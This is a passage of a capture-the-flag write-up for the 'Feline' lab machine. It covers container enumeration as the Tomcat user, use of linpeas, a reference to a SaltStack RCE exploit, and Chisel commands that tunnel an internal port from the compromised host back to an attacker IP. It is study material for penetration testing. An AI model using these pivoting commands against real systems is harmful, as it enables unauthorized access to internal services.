 Now that I had access to the host, I ran some basic enumeration which is shown below:

<details></details>

Since it looked like I was inside a docker container, I ran some additional enumeration:

<details></details>

I was definitely in a container, this can also be seen by the use of `/opt/containerd`.  Containerd is used by Docker, Kubernetes CRI, and a few other projects.
> Containerd was designed to be used by Docker and Kubernetes as well as any other container platform that wants to abstract away syscalls or OS specific functionality to run containers on linux, windows, solaris, or other OSes.

Since I had a shell via the Tomcat user, I knew that I was able to create files in `/opt/tomcat/conf/` so I created a working directory there and uploaded `linpeas.sh`. This didn't show anything new, but it did once again highlight some of the listening ports on the machine. When doing some basic Google Fu, it appeared to be linked to SaltStack: <https://docs.saltstack.com/en/latest/topics/tutorials/firewall.html>. There did appear to be known RCE's for SaltStack so I decided to follow this train of thought.


### Exploiting SaltStack

My initial searching lead me to: <https://www.exploit-db.com/exploits/48421>, which was a Python saltstack exploit. 

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Feline/img5.png"  style="width: 70%" />
</p>

Even though it didn't appear to be possible to execute this through the host since I did not have the `salt` module installed, it would be possible to execute it on my own machine where I had control over the modules. In order to accomplish this I could do port forwarding from the host. Since I didn't have credentials for the tomcat user, it was not possible to do an SSH port forward, however there are other methods such as Chisel which would work.

On my machine -- Kali, I started the Chisel server:
```bat
./chisel server -p 9876 --reverse
```

On the compromised host, I then started the client:

```bat
./chisel client 10.10.14.49:9876 R:4506:127.0.0.1:4506
```
